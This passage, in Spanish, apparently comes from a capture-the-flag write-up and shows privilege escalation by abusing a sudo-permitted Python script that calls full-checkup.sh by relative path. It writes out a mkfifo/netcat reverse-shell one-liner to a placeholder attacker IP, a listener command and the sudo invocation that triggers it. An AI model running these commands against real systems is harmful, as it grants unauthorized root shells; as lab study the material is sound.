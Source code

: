 Al revisar el script comprobamos que si pasamos como argumento la opción "full-checkup" ejecuta el script ./full-checkup.sh:


![](assets/Pasted%20image%2020250503123628.png)

### Explotación del script

Aprovechamos la referencia relativa a full-checkup.sh ejecutando el script system-checkup desde otro directorio que contendrá nuestro propio script malicioso full-checkup.sh.

Creamos una  reverse shell con el siguiente contenido:

```
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 9001 >/tmp/f" > /tmp/full-checkup.sh
```

Lo hacemos ejecutable

```
chmod +x /tmp/full-checkup.sh
```

Iniciamos un listener en el puerto 9001

```
nc -nlvp 9001
```

Por útimo, lanzamos de nuevo el script desde el directorio /tmp para que abusando de la ruta relativa se ejecute el script full-checkup.sh malicioso con nuestra reverse shell:

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![](assets/Pasted%20image%2020250504120405.png)